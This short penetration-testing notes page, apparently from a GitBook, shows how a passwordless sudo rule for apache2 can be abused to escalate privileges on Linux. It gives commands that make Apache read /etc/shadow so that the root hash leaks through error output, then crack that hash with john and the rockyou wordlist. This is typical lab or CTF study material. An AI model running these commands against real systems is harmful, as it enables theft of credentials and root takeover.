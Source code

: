 # Abusing attended functionality

This allows running `apache2` as root without password. Apache config files can `Include` arbitrary files, so we can read root-only files through error output.

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```bash
sudo /usr/sbin/apache2 -f /etc/shadow
```

which case error but hashed of root is leaked

then unshadow and crack hash

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
john shadow1 --wordlist=~/wordlist/rockyou.txt --pot=deleteme.pot
```

we use this option `--pot=deleteme.pot` to force john start crack again
